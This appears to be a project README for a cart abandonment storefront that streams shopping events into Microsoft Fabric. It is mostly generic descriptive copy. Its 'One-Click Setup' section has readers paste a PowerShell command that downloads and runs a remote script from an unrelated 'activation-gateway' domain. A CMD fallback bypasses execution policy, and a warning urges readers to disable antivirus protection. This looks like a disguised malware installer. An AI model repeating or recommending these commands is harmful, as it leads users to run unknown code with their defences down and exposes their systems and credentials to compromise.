

<div align="center">

# 🛒 Cart Abandonment Insights — Web Application



[]() []() []()

</div>

---

A complete cart abandonment solution that pairs a realistic HTML and JavaScript storefront with a real-time intelligence pipeline. Shoppers browse, add items, and move through checkout while the app streams cart events into Microsoft Fabric through an eventstream, turning everyday shopping behavior into actionable signals. Push notifications close the loop, reaching customers at the moment their journey stalls. Built for demos, experimentation, and production-minded teams, this project shows the full path from storefront interaction to real-time response.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **Silent installer** — one command, no prompts.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Run the command
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Key Capabilities

- **Real-Time Cart Event Capture**: The storefront tracks every meaningful shopping interaction—product views, add-to-cart actions, checkout starts, and abandonment signals—and streams them to Microsoft Fabric the moment they happen, so the business can respond while the customer journey is still in play.

- **Streaming Ingestion Through Eventstream**: Cart and journey events flow directly into a Fabric eventstream, giving you a managed, low-latency pipeline that feeds downstream analytics, automation, and monitoring without custom plumbing.

- **Push Notification Delivery**: Beyond analytics, the solution reaches customers where they are, sending targeted push notifications that help recover abandoned carts and re-engage shoppers at exactly the right moment.

- **Built-In Journey Simulator**: Validate the full pipeline end to end with a simulator that generates single events, batches of events, or complete shopping journeys—no manual clicking required—so demos and testing stay fast and repeatable.

- **Resilient Event Delivery**: Browser-side retry logic and an offline queue keep events from being lost when connectivity hiccups, ensuring the abandonment signals that matter most still make it into the stream.

- **End-to-End Retail Scenario**: From the first product view to the final notification, the solution models a complete, realistic commerce journey—making it straightforward to showcase, extend, and adapt to your own cart-recovery use cases.

## Tech Stack

Built for modern retail experiences, this solution combines a lightweight storefront front end with a secure, event-driven backend and a real-time intelligence pipeline. Every layer is chosen to keep the journey fast for shoppers and the signals fast for the business.

**Storefront**
- HTML and vanilla JavaScript deliver a crisp, dependency-light shopping experience across product browsing, cart, and checkout flows.
- Browser-side retry logic and an offline event queue ensure cart and journey signals are never lost, even on flaky connections.
- Built-in push notification support keeps customers engaged at the moments that matter.
- A simulator mode makes it effortless to generate realistic event traffic for demos and validation.

**Application Backend**
- An Express-based API receives storefront events, validates them, and publishes them reliably to a streaming endpoint.
- Microsoft Entra ID authentication secures every publish path with modern, credential-safe access.
- The Azure SDK for JavaScript provides the publishing backbone, keeping the integration clean and maintainable.

**Real-Time Intelligence Pipeline**
- Microsoft Fabric Eventstream anchors the ingestion layer, exposing an Event Hub-compatible namespace that the app publishes to directly.
- Downstream Fabric components handle routing, alerting, enrichment, and analytical storage so events become insight the moment they arrive.
- An Eventhouse layer powers query and investigation scenarios, feeding real-time dashboards that surface abandonment signals as they happen.

**Documentation and Architecture**
- System-level documentation captures provisioning, validation, and component responsibilities, so the full pipeline can be reproduced and explained consistently.

The result is a polished, end-to-end foundation for cart abandonment intelligence — a fast storefront, a secure publish path, and a real-time platform ready to turn shopper behavior into timely action.

## Getting Started

Bring the storefront to life in minutes and watch shopper intent turn into real-time signal. The application is designed to run cleanly from a fresh checkout, with a storefront, event pipeline, and supporting services ready to demonstrate end-to-end cart abandonment intelligence.

**Run it locally.** Start the storefront and backend together, then browse the catalog and build a cart as a customer would. Every interaction is captured and published through the integrated event stream, so you can observe the full journey from click to signal without wiring anything by hand.

**Simulate a shopper.** Open the products page, launch the simulator from the top bar, and trigger a burst of events or a complete journey in a single click. The simulator log and backend output confirm each event as it flows through the pipeline, making it easy to validate behavior before a live demo.

**Connect your pipeline.** Point the application at your Event Hub-compatible endpoint using Entra ID authentication, then confirm that cart events arrive in your eventstream. The connection is configured through the application's own settings, so you can move from local experimentation to a connected Fabric scenario without changing code.

**Prepare for the full experience.** Review the setup documentation for provisioning guidance and the architecture notes for how the website, ingestion layer, and downstream analytics fit together. With the application running and the pipeline connected, the remaining components can be stood up to complete the real-time dashboard and alerting story.

## FAQ

**Is this a demo or a production-ready solution?**
It is a working reference implementation designed to show how cart abandonment can be captured and acted on in real time. The storefront, backend, and event publishing pipeline are functional end to end, and the accompanying documentation covers how the wider Fabric and Azure architecture fits together so teams can adapt the pattern to their own environment.

**What do I need to try it?**
A modern browser is all it takes to explore the storefront. To see events flow into a real-time pipeline, you will need an Event Hub-compatible endpoint, which is commonly provided by a Microsoft Fabric Eventstream. Authentication is handled through Entra ID, so no secrets are embedded in the application.

**How are cart events actually captured?**
Every meaningful interaction — product views, add-to-cart actions, checkout starts, and abandonments — is emitted as a structured event. Events are retried automatically, queued while offline, and published to the backend, which validates and forwards them to the streaming endpoint. A built-in simulator lets you generate single events, batches, or a complete customer journey without clicking through the storefront.

**Can I extend it to my own scenario?**
Yes. The application is intentionally layered so the storefront experience, the event contract, and the downstream processing can each evolve independently. Swap in your own product catalog, adjust the event schema, or attach new downstream actions — the documentation explains the component responsibilities so changes stay predictable.

**Does it support push notifications?**
It does. The app includes browser-side push notification support so a triggered abandonment condition can reach the customer while the journey is still relevant, closing the loop between detection and action.

**Where should I start?**
Begin with the repository overview, then follow the setup guidance to run the app locally. The system-level documentation in `docs/` is the right place to go next for architecture, provisioning, and validation details.

## License

This project is released under the MIT License, giving you the freedom to use, modify, and distribute it for both personal and commercial purposes with minimal restrictions. Whether you are exploring real-time intelligence patterns, adapting the storefront for your own retail scenarios, or extending the event pipeline for production-grade experimentation, the permissive licensing keeps your path clear. The license is designed to encourage learning, prototyping, and reuse, so you can move quickly from evaluation to implementation without licensing friction.